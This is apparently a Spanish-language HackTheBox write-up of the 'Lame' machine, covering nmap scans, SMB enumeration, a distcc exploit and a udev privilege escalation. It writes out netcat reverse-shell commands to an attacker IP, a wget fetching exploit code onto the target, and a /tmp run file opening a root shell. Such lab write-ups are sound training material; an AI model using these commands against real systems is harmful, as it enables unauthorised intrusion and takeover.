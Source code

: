 ```yaml
---
layout: post
title:  "HTB_Lame"
date:   2020-08-17 18:36:10 -0500
categories: HackTheBox
---
```


## HTB Lame ##

![Pic](/writeups/assets/Lame/Picture.png)

### Reconocimiento ###

Utilize la herramienta *Autorecon* de Tiberius para un reconocimiento inicial y en paralelo corri nmap para ver que puertos estaban abiertos.

` nmap -A -p- 10.10.10.3 `

Luego de terminar autorecon - entre en el folder de scans y puedo obtener la siguiente informacion de los puertos abiertos:

- **Puerto 21**: FTP (vsftpd 2.3.4), permite acceso anonimo al share.
- **Puerto 22**: OpenSSH (4.7p), casi nunca es vulnerable
- **Puerto 139 y 445**: Samba, uno tiene el 3.0-4.0 y el otro 3.0.20
- **Puerto 3632**: Distcc, nunca en la vida habia escuchado de ese servicio, autorecon lo muestra en los _pattern

![autorecon](/assets/Lame/autorecondistcc.png)

### Enumeracion ###

#### Puerto21 ####
Primero empezamos con nuestros puntos de entrada - buscamos en google y nos damos cuenta que esta version de vsftpd es vulnerable, buscamos un script de nmap para asegurarnos de que esto sea posible.

` ls /usr/share/nmap/scripts/ftp* `

Vemos que existe uno para vsftpd que se llama *vsftpd-backdoor.nse*

Ejecutamos el script
` nmap --script ftp-vsftpd-backdoor.nse -p 21 10.10.10.3 `

Nos dice que no es vulnerable, nos movemos a nuestro siguiente punto de entrada

#### Puerto 22 ####
SSH es lo ultimo que queremos mirar, pasemos a los samba

#### Puerto 139 ####
` smbclient -L 10.10.10.3 `

Me da un error *protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED*

` smbmap -H 10.10.10.3 `

Si muestra que tenemos read/write access a un folder que se llama oh noes!

Buscando en google para vulnerabilidades de esta version de Samba, hay varias, pero la mayoria necesitan Metasploit, asi que pasamos a nuestro siguiente puerto

### Exploitation ###

#### Port 3632 Distcc ####

En el _Pattern log de autorecon, sale que nmap encontro una vulnerabilidad en este puerto, para asegurarnos corremos

` nmap --script distcc-cve2004-2687 -p 3632 10.10.10.3 `

Y Efectivamente, si es vulnerable!

Buscando la vulnerabilidad en google - encontramos un script de python que nos puede dar acceso en shell, solo tenemos que seguir las instrucciones.

![script](/assets/Lame/script.png)

- `nc -nlvp 1403`
- ` exploit.py -t 10.10.10.3 -p 3632 -c "nc 10.10.16.85 1403 -e /bin/sh" `

Cuando corres el exploit te va a dar un socket timeout pero ya estas in - lo que tienes que hacer despues es spawn un TTY shell

` python -c 'import pty; pty.spawn("/bin/sh")' `

![exploit](/assets/Lame/shell.png)

Buscamos nuestro user.txt

### Privilege Escalation ###
Buscando en google la version del sistema operativo para ver vulnerabilidades encontramos un exploit escrito en .c [2009-1185](https://www.exploit-db.com/exploits/8572) lo buscamos en searchsploit y lo bajamos a nuestro folder.

` searchsploit -m 8572.c `

Seteamos un servidor python en nuestra maquina atacante

` python3 -m http.server `

En la maquina objetivo, hacemos un wget

` wget http://10.10.16.85/8572.c `

Compilamos el exploit usando gcc

` gcc 8572.c -o 8572 `

Seguimos las instrucciones que salen en el script

[Instrucciones]

Tenemos que:
- Darle el PID (ProcessID) del udevd netlink socket
- Crear un run file en /tmp y agregarle un reverse shell

` ps -aux | grep devd `

o tambien usando

` cat /proc/net/netlink `

Este va a tener uno menos que el DEVD inet, el que hay que usar - 2687 o el que sale en ` cat /proc/net/netlink `

![inet](/assets/Lame/PID.png)


Segundo paso es crear un run file en /tmp y agregarle el reverse shell
- ` #!/bin/bash `
- ` nc -nv 10.10.16.85 4444 -e /bin/bash `

Seteamos un listener en nuestra maquina con el puerto que establecimos anteriormente y ejecutamos el exploit con el PID que identificamos

![Root](/assets/Lame/root.png)

### Notas ###
- Full port scans
- Enumeracion de servicios
- Compilar exploits y transferirlos de una maquina a otra
